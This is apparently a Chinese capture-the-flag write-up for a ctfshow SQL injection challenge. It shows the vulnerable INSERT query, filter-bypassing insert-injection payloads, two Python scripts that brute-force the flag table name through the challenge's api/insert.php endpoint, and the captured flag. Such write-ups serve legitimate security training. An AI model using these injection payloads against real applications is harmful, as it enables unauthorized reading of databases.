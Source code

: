 # ctfshow-sql240



##### 参考链接

其他大佬链接

feng  https://blog.csdn.net/rfrder/article/details/113759746

Je3    https://blog.csdn.net/jvkyvly/article/details/115458909

Y4	 https://blog.csdn.net/solitudi/article/details/110144623





 查询语句 

```
  //插入数据
  $sql = "insert into ctfshow_user(username,pass) value('{$username}','{$password}');";
```



 返回逻辑 

```
  //过滤空格 or sys mysql



Hint: 表名共9位，flag开头，后五位由a/b组成，如flagabaab，全小写
```





```mysql
直接猜表名

表名 flag*****

insert注入，直接闭合单引号，然后自己构造查询语句，把查询的结果insert到表里

注入点api/insert.php


username=1',database())#&password=123456
倒序查找内容
ctfshow_web



import requests
url_insert="http://517b800b-509d-4bc2-950e-559745adb2ce.chall.ctf.show:8080/api/insert.php"

for v1 in "ab":
    for v2 in "ab":
        for v3 in "ab":
            for v4 in "ab":
                for v5 in "ab":
                    v="flag"+v1+v2+v3+v4+v5
                    data={
                        'username':"1',(select(group_concat(flag))from({})))#".format(v),
                        'password':'1'
                    }
                    r=requests.post(url=url_insert,data=data)
                    
                    
                    
跑完脚本直接网页查看

ctfshow{6a3b5850-a0af-4acd-b923-38230f8b6e28}




y4大佬脚本

"""
Author:Y4tacker
"""
import random
import requests

url = "http://35963b4d-3501-4bf2-b888-668ad24e1bc5.chall.ctf.show"
url_insert = url + "/api/insert.php"
url_flag = url + "/api/?page=1&limit=1000"


# 看命函数
def generate_random_str():
    sttr = 'ab'
    str_list = [random.choice(sttr) for i in range(5)]# 列表推导式
    random_str = ''.join(str_list)
    return random_str


while 1:
    data = {
        'username': f"1',(select(flag)from(flag{generate_random_str()})))#",
        'password': ""
    }
    r = requests.post(url_insert, data=data)
    r2 = requests.get(url_flag)
    if "flag" in r2.text:
        for i in r2.json()['data']:
            if  "flag" in i['pass']:
                print(i['pass'])
                break
        break

```























